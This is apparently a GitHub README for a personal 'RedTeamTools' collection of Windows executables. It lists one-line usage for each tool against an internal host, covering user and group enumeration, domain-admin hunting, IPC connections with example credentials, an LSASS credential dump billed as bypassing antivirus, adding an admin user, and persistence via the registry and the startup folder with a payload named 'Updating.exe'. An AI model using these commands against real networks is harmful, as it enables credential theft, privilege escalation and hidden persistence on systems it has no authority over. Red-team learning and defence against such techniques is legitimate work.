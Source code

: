 # RedTeamTools

###### Tools developed during the personal learning process，if you find some problem I hope you can give me a issue let me know how to become better，thanks

## 01Get Target User

```
new1.exe \\192.168.3.144
```

## 02Get Target Local Administrators Group

```
new2.exe administrators \\192.168.3.144
```

## 03Get Target All Local Group

```
new3.exe \\192.168.3.144
```

## 04Get Target Goup Member

```
new4.exe "domain admins" \\192.168.3.144
```

## 05Make The IPC Connect

```
new5.exe \\192.168.3.144 rootkit.org\sqladmin Admin12345
```

## 06Delete The IPC Connect

```
new6.exe \\192.168.3.144
```

## 07Get The Internet Session To Help Find The Domain Manager

```
new7.exe \\192.168.3.144
```

## 08Get Login User To Help Find The Domain Manager

```
new8.exe \\192.168.3.144
```

## 09Dump Lsass BypassAV

```
new9-1.exe
```

## 10Fast Information Collection

```
new10.exe > 1.txt
```

## 11Add Admin User BypassAV

```
new11.exe
11.vbs
```

## 12Write The Registry

```
12.exe
```

## 13Write The Start Dir

```
13.exe
Make sure your tar exe in the C:\Windows\Temp\Updating.exe
```
